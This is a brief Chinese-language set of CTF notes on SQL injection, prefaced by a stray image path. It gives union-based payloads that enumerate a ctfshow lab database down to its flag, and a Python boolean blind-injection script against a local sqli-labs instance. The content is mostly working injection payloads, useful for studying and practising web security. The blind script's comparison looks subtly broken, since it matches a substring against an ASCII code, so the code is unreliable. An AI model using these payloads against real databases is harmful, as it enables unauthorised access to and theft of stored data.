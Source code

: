 union

```php
#测试字段数
select * from mysql.user union select 1,2; (1,2,3,4,5……)
 
```

`group_concat()`将查询的字段数合并一起输出

### 一次简单的注入

查询语句：`$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";`
正常查询：`select username,password from user where username !='flag' and id ='1' limit 1;`
注入查询：

- 加个单引号`select username,password from user where username !='flag' and id ='1'' limit 1;`  报错
- 加注释 `1' --+`
- order by测试列`1' order by 4 --+` 报错，列数不够递减直到正常
- union查询 union语句来连接查询，并且在前面把id改成-1以达到把查询id回显的数据给置空的目的
`-1 union select database(),2,3 --+` 查询到数据库名字
`-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema="ctfshow_web" --+` 查询到表名
`-1' union select group_concat(column_name),2,3 from information_schema.columns where table_name="ctfshow_user"--+` 查询到列名
`-1' union select password,2,3 from ctfshow_user--+` 查询到flag
`from ctfshow_user4`
`from ctfshow_web.ctfshow_user4 --+`

### 盲注

#### 布尔盲注

```python
#! -*- encoding:utf-8 -*-
import requests
#用这里的语句分别替换id中的内容即可爆库、表、字段
#select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA
#select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'xxx'
#select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_SCHEMA = 'xxx' and TABLE_NAME = 'xxx'
dic='0123456789abcdefghijklmnopqrstuvwxyz,'
url='http://127.0.0.1/sqli-labs/Less-8/?id=1\' and '
string=''
for i in range(1,100):
    for j in dic:
        id="substr((select group_concat(schema_name) from information_schema.schemata limit 0,1),{0},1)={1}--+".format(str(i),ascii(j))
        #print(id)
        url_get=(url+id)
        #print(url_get)
        r=requests.get(url_get)
        if "admin" in r.text:
            string+=j
            print(string)
print(string)
```
